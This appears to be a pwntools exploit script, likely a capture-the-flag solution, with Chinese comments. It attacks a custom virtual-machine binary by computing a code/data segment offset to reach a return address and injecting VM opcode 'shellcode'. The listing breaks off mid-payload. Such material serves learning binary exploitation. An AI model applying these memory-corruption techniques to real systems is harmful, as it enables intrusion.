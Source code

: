 ```py
def debug(interact = True, query = ''):
	subprocess.Popen(["qterminal", "-e", f'''bash -c 'pwndbg -ex "set telescope-skip-repeating-val off" -p {p.pid} -ex "{query}" ' '''])
	if interact: p.interactive()
	
def original_debug(interact = True):
	gdb.attach(p)
	if interact: p.interactive()

u64_ = lambda a: u64(a.ljust(8,b'\x00'))

# ------------- 基本配置 -------------

p.recvuntil(b'|_____|  [___] |_____|  [___]')

u64_s = lambda s: int(binascii.b2a_hex(s.encode().ljust(4, b'\x00')[::-1]).decode(), 16)

# choice_6 填充二级 data
def choice_2(and_num, data_size, data: list) -> None: 
	p.sendline(b'2')
	p.sendline(str(and_num).encode())
	p.sendline(str(data_size).encode())
	for i in data:
		p.sendline(str(i).encode())

def choice_3(xor_num, data_size, data: bytes) -> None:
	p.sendline(b'3')
	p.sendline(str(xor_num).encode())
	p.sendline(str(data_size).encode())
	p.send(data)

# choice_5 填充一级 data
def choice_5(or_num, data_size, data: bytes) -> None:
	p.sendline(b'5')
	p.sendline(str(or_num).encode())
	p.sendline(str(data_size).encode())
	p.send(data)

# choice_6 会调用 function_1 ，填充一级 data 和二级 data
def choice_6(or_num, data_size, data: list) -> None:
	p.sendline(b'6')
	p.sendline(str(or_num).encode())
	p.sendline(str(data_size).encode())
	for i in data:
		p.sendline(str(i).encode())

# 0x000055555555D784 是 data 段基址
# 0x0000555555563D50 是 code 段基址
ret_addr = ((0x000055555555D784 + 260) - 0x0000555555563D50) // 12

choice_6(0, 63, [0xfffffff8] * 64)

VM_shellcode = [
	# 此处位于 code 段的相对地址是 code_base + (ret_addr + 0)		size: __int96, 12 Bytes
	# 此处位于 data 段的相对地址是 data_base + 130			size: __int32, 4 Bytes
	# 初始化循环变量 reg(5)
	u64_s('%U'), 0, 169,			# push 169		# data_base + 169 刚好覆盖掉最后的 fleg 标识 ，在此输入代码可继续执行
	u64_s('%Y'), 0, 0x5,			# pop reg(5)
	# 此处位于 code 段的相对地址是 code_base + (ret_addr + 2)
	u64_s('%a'), 0, 0,			# push stdin
	u64_s('%k'), 0, 0x5,			# push reg(5)
	u64_s('%#X'), 0, 0,			# store_sth0
	# 此处位于 code 段的相对地址是 code_base + (ret_addr + 5)
```
